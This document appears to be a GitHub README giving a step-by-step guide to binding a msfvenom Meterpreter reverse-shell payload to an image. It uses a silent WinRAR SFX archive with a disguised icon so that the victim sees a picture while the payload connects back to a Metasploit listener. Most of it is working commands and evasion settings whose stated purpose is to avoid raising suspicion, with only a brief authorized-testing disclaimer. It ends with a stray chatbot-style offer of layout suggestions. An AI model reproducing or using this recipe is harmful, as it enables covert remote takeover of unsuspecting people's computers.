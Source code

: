 # 🚀 Binding an msfvenom Payload with an Image for Penetration Testing  
**⚠️ For authorized penetration testing purposes only! Unauthorized use is illegal and unethical.**

---

## 🛠️ Prerequisites

- **Operating Systems**:  
  - 🐧 **Kali Linux**: For payload generation and listener setup.  
  - 🖥️ **Windows OS**: For testing the payload delivery.  

- **Tools**:  
  - `msfvenom`: To generate the payload.  
  - `msfconsole`: To capture the reverse shell.  
  - **WinRAR**: To bind files into a single executable.  
  - **Image Editor** (e.g., GIMP, online converter): For creating `.ico` files.  

- **Required Files**:  
  - 🧩 `payload.exe`: The malicious file created with msfvenom.  
  - 🖼️ `icon.ico`: A custom icon to disguise the final file.  
  - 📸 `original_image.jpg`: The image that appears legitimate.

---

## ✍️ Steps to Bind msfvenom Payload with an Image  

### Step 1: 🌐 Find Your IP Address and Choose a Port  
1. Open Kali Linux and find your IP address:  
   ```bash
   ip a
   ```  
   Locate the IP under the active network interface (e.g., `eth0` or `wlan0`).  

   **Why**:  
   The payload needs your IP to send the connection back.  

   **If not done**:  
   The payload cannot connect to your system.  

2. Choose a port:  
   Pick a port not already in use, like `4444` or `8080`.  

   **Why**:  
   Both the payload and listener must use the same port for communication.  

   **If not done**:  
   Connections won’t work if the port mismatches.

---

### Step 2: 🖼️ Create an `.ico` Icon File  

#### 1. **Convert to `.ico`**  
   - Using an **Online Converter**:  
     - Upload the image to a service like [icoconvert.com](https://www.icoconvert.com/).  
     - Download the `.ico` file.  

   - Using **GIMP**:  
     - Open the image.  
     - Resize to 256x256.  
     - Go to `File > Export As` and save as `icon.ico`.  
     


   **Why**:  
   This step ensures the final executable looks like a harmless file.  

   **If not done**:  
   The file may display a generic app icon, raising suspicion.

---

### Step 3: 🛠️ Create the msfvenom Payload  

1. Run the following in Kali Linux:  
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=<YOUR_PORT> -f exe -o payload.exe
   ```  
   change <YOUR_IP> and <YOUR_PORT>

   **Why**:  
   This creates the payload (`payload.exe`) to connect back to your listener.  

   **If not done**:  
   The attack will fail without a working payload.  

---

### Step 4: 📦 Bind the Payload with the Image Using WinRAR  

#### 1. **Prepare Files**  
   Move `payload.exe`, `original_image.jpg`, and `icon.ico` to your Windows machine.  

#### 2. **Configure WinRAR**  

**💡 Add an image here showing WinRAR's archive options.**  

- **Create an SFX Archive**:  
  - Right-click the files → Select `Add to Archive`.  
  - In the settings, check **Create SFX archive**.  

- **Advanced Settings**:  
  - Navigate to the **Advanced tab** → Click **SFX Options**.  

#### SFX Options:  
1. **General Tab**  
   - Enter the following under "Run after extraction":  
     ```bash
     start original_image.jpg && payload.exe
     ```  

   **Why**:  
   Ensures the image opens first while the payload executes in the background.  

   **If not done**:  
   Only the payload runs, which may look suspicious.  

2. **Text and Icon Tab**  
   - Select `icon.ico` under **Load SFX icon from the file**.  

   **Why**:  
   Gives the file a legitimate appearance.  

   **If not done**:  
   The file may look suspicious with a default icon.  

3. **Modes Tab**  
   - Select:  
     - **Unpack to temporary folder**  
     - **Silent mode: Hide all**  

   **Why**:  
   Prevents showing extraction or activity windows.  

   **If not done**:  
   The user may notice unexpected behavior.  

---

### Step 5: 🛡️ Set Up the Listener in Metasploit  

1. Open Metasploit:  
   ```bash
   msfconsole
   ```  

2. Configure the listener:  
   ```bash
   use exploit/multi/handler  
   set payload windows/meterpreter/reverse_tcp  
   set LHOST <YOUR_IP>  
   set LPORT <YOUR_PORT>  
   exploit  
   ```  

   **Why**:  
   This captures the reverse shell connection from the payload.  

   **If not done**:  
   Even if the target runs the file, you won’t receive any connection.  

---

### Step 6: 🧪 Test the Payload  

1. Transfer the final file (e.g., `malicious_image.jpg`) to the Windows machine.  
2. Open the file:  
   - The image displays, ensuring legitimacy.  
   - In the background, the payload runs and connects back to your listener.  

   **Why**:  
   Verifies that the binding and payload work as expected.  

   **If not done**:  
   You won’t know if the attack was successful.  

---

## 🎯 Example Images

### 📌 Generating the Payload:  
_Add an image here showing the `msfvenom` command execution._  

---

### 📌 Configuring WinRAR SFX Options:  
_Add an image here showing the WinRAR SFX options screen._  

---

## ⚠️ Legal Disclaimer  

This guide is for **educational purposes only**. Use it responsibly and only with explicit authorization. Unauthorized use is illegal and unethical.  

---

Would you like additional suggestions for layout or more example screenshots? 😊
